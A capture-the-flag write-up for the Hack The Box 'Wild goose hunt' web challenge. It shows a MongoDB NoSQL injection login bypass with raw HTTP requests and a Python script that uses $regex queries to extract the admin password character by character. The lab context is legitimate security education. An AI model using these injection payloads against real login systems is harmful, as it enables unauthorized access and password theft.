 ```yaml
---
slug: wild-goose-hunt-cyberapocalypse-2021-ctf
title: Wild goose hunt - Cyberapocalypse 2021 CTF
description: This is a writeup for the Wild goose hunt challenge, part of the Hack the box's Cyberapocalypse CTF 2021, category Web.
authors: kiroki
tags: [Cyber Security, CTF]
---
```


This is a writeup for the Wild goose hunt challenge, part of the Hack the box's Cyberapocalypse CTF 2021, category Web.

### Prompt

Outdated Alien technology has been found by the human resistance. The system might contain sensitive information that could be of use to us. Our experts are trying to find a way into the system. Can you help?

<!-- truncate -->

### Recon

We're given source-code for a web-site, and a hosted version.

With a quick overview of the code we're given, we see that the site uses `mongodb` as its database. Albeit slightly dumb, I didn't go into any more detail than this, and didn't check where the flag is actually hidden.

### Attempting to log in

My initial idea was to simply log into the site, and see if that doesn't display the flag. So, I intercepted a login request with Burpsuite, and changed the POST request data to a classic mongo injection string,

```yaml
POST /api/login HTTP/1.1
Host: localhost:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:1337/
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: http://localhost:1337
Content-Length: 35
Connection: close

username[$ne]=foo&password[$ne]=bar
```

Which returns a login success message.

```yaml
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 62
ETag: W/"3e-BvDyP4u8qgWgGOMxzemBf6QGSBc"
Date: Tue, 27 Apr 2021 17:31:15 GMT
Connection: close

{"logged":1,"message":"Login Successful, welcome back admin."}
```

But upon observing the login page of the site, we find nothing, but a welcome message.

![welcome message](/content/images/2021/04/Screenshot_2021-04-27_20-34-50.png)

So at this point, I just assumed that the flag is the password itself (which I would had already known, if I had checked the `entrypoint.sh` script).

### Solution

In order to correctly guess the password (and know what it is), we are going to once again use nosql injection, but this time we will use the [$regex] query for mongo.

1. We send a POST request to `/api/login` using the username `admin` and a regex match query for the password with a random (printable) character.
2. If the login is successful, we assume that this character is indeed part of the password, so we add it to our flag, and try again with the next position in the password
3. Simple as that, let's script it

```python
import requests
import string

# Assumptions
# We suspect that the password is the flag
# the flag starts with "CBTH{"
# and ends with "}"

flag = "CHTB{"
url = "http://165.227.236.40:31535/api/login"

# Each time a login is successful, we should start the loop from the first character
startFromFirstChar = True

while startFromFirstChar:
    startFromFirstChar = False

    # avoiding characters like * . & +
    for char in string.ascii_letters + string.digits + "!@#$%^()@_{}":
        payload = flag + char
        post_data = {'username': 'admin', 'password[$regex]': payload + ".*"}
        r = requests.post(url, data=post_data)

        # A correct password means we get "logged":1 in response
        if ('"logged":1' in r.text):
            print(payload)
            startFromFirstChar = True
            flag = payload

            # Exit if "}" is at the end and we are logged in
            if char == "}":
                print("\nFlag: " + flag)
                exit(0)
            break
```

![running](/content/images/2021/04/Screenshot_2021-04-28_09-21-31.png)

And so, we get our flag

```sh
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}
```

import DonateCard from '@site/src/components/DonateCard';

<DonateCard/>